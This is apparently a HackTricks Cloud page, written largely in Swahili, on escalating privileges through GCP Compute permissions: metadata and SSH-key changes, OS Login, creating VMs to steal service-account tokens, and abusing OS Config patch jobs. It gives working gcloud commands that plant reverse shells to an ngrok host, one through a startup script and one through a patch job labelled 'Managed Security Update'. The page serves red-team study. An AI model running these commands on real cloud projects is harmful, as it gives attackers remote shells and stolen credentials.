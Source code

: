 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Kwa maelezo zaidi kuhusu Compute na VPC (mtandao) katika GCP angalia:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Kumbuka kwamba ili kufanya mashambulizi yote ya kupandisha hadhi yanayohitaji kubadilisha metadata ya mfano (kama kuongeza watumiaji wapya na funguo za SSH) **inahitajika kuwa na ruhusa za `actAs` juu ya SA iliyoambatanishwa na mfano**, hata kama SA tayari imeambatanishwa!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Kwa ruhusa hiyo unaweza **kubadilisha** taarifa za **metadata** za **mfano** na kubadilisha **funguo zilizoidhinishwa za mtumiaji**, au **kuunda** **mtumiaji mpya mwenye** ruhusa za sudo. Hivyo, utaweza kuingia kupitia SSH kwenye mfano wowote wa VM na kuiba Akaunti ya Huduma ya GCP ambayo Mfano unatumia.\
Vikwazo:

* Kumbuka kwamba Akaunti za Huduma za GCP zinazotumika katika mifano ya VM kwa kawaida zina **mipaka finyu sana**
* Itabidi uwe **na uwezo wa kuwasiliana na** seva ya SSH ili kuingia

Kwa maelezo zaidi kuhusu jinsi ya kutumia ruhusa hii angalia:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Unaweza pia kufanya shambulizi hili kwa kuongeza skripti mpya za kuanzisha na kuanzisha upya mfano:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ruhusa hii inatoa **privilege sawa na ruhusa ya awali** lakini juu ya instances maalum badala ya mradi mzima. **Mizaha na mipaka sawa na ile ya sehemu ya awali inatumika**.

### `compute.instances.setIamPolicy`

Aina hii ya ruhusa itakuruhusu **kujipa jukumu na ruhusa za awali** na kupandisha privileges kwa kuzitumia.

### **`compute.instances.osLogin`**

Ikiwa **OSLogin imewezeshwa katika instance**, kwa ruhusa hii unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuungana na instance. Huta **kuwa na root privs** ndani ya instance.

{% hint style="success" %}
Ili kuingia kwa mafanikio na ruhusa hii ndani ya VM instance, unahitaji kuwa na ruhusa `iam.serviceAccounts.actAs` juu ya SA iliyoambatanishwa na VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ikiwa **OSLogin imewezeshwa katika instance**, kwa ruhusa hii unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuungana na instance. Utakuwa na **root privs** ndani ya instance.

{% hint style="success" %}
Ili kuingia kwa mafanikio na ruhusa hii ndani ya VM instance, unahitaji kuwa na ruhusa `iam.serviceAccounts.actAs` juu ya SA iliyoambatanishwa na VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Inawezekana **kuunda mashine ya virtual yenye Akaunti ya Huduma iliyotolewa na kuiba tokeni** ya akaunti ya huduma kwa kufikia metadata ili kupandisha privileges kwake.

Script ya exploit kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ikiwa una **`osconfig.patchDeployments.create`** au **`osconfig.patchJobs.exec`** ruhusa unaweza kuunda [**kazi ya patch au uwekaji**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Hii itakuruhusu kuhamasisha kwa upande katika mazingira na kupata utekelezaji wa msimbo kwenye instances zote za compute ndani ya mradi.

Kumbuka kwamba kwa sasa **huhitaji ruhusa `actAs`** juu ya SA iliyoambatanishwa na instance.

Ikiwa unataka kutumia hii kwa mikono utahitaji kuunda ama [**kazi ya patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **au** [**uwekaji**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Ili kukimbia kazi ya patch: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Ili kupeleka usasishaji wa patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) inaweza kutumika zamani kwa ajili ya kutumia hii misconfiguration (lakini sasa haifanyi kazi).

**Mshambuliaji anaweza pia kutumia hii kwa kudumu.**

### `compute.machineImages.setIamPolicy`

**Jipatie ruhusa za ziada** kwa picha ya kompyuta.

### `compute.snapshots.setIamPolicy`

**Jipatie ruhusa za ziada** kwa picha ya diski.

### `compute.disks.setIamPolicy`

**Jipatie ruhusa za ziada** kwa diski.

### Bypass Access Scopes

Kufuata kiungo hiki utapata baadhi ya [**wazo za kujaribu kupita mipaka ya ufikiaji**](../).

### Local Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
